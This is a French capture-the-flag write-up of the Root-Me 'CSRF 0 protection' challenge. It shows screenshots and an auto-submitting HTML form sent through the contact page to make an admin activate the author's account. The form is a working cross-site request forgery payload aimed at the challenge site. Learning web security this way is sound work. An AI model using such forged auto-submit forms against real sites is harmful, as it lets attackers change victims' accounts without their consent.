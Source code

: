 ## CSFR 0 protection

On cherche à activer notre compte pour activer l'espace privé de l'intranet. Une fois sur la page d'acceuil on se register puis on se login.

![rootme1](https://user-images.githubusercontent.com/81105172/168243766-b06a27cd-ebb5-4d5b-a0aa-4c46f370cfd7.PNG)

une fois cette étape passée nous gagnons l'accès à de nouvelles pages, la page contact :

![rootme2](https://user-images.githubusercontent.com/81105172/168244176-8e8305f7-6fbd-4133-861e-8e211b5f1e9c.PNG)

et la page profile:

![rootme3](https://user-images.githubusercontent.com/81105172/168244236-b5e4105d-4e69-4b7c-bc7e-fbf64920217b.PNG)

en observant le code source de la page profile, on observe que celle-ci correspond à un forms permettant de post des informations à l'intranet, hors nous ne pouvons pas checkez la case de status nous même ni submit le forms. 
On vas alors envoyer le forms directement par message et ce via l'onglet contact. On vas retoucher légèrement le code du forms, mettant l'url complet et en ajoutant l'argument "checked" au chackbox et nous allons rajoutant un element script pour l'appeler.
on as donc le code ci-dessous :

```html
<form id="form" action="http://challenge01.root-me.org/web-client/ch22/?action=profile" method="post" enctype="multipart/form-data">
 	<input type="text" name="username" value="zeobuilder10">
 	<input type="checkbox" name="status" checked >
  <button type="submit">Submit</button>
</form>
<script>document.getElementById("form").submit()</script>
```

soit :

![rootme4](https://user-images.githubusercontent.com/81105172/168245319-5246781b-3a23-49e7-8106-cd7e75c7b8c6.PNG)

On appuie alors sur submit et c'est gagnée, il suffit d'aller dans l'onglet Private pour récupérer le code et compléter l'exercice.

![rootme5](https://user-images.githubusercontent.com/81105172/168245509-c41d9ebc-d1e9-4aa6-867a-99297265c611.PNG)

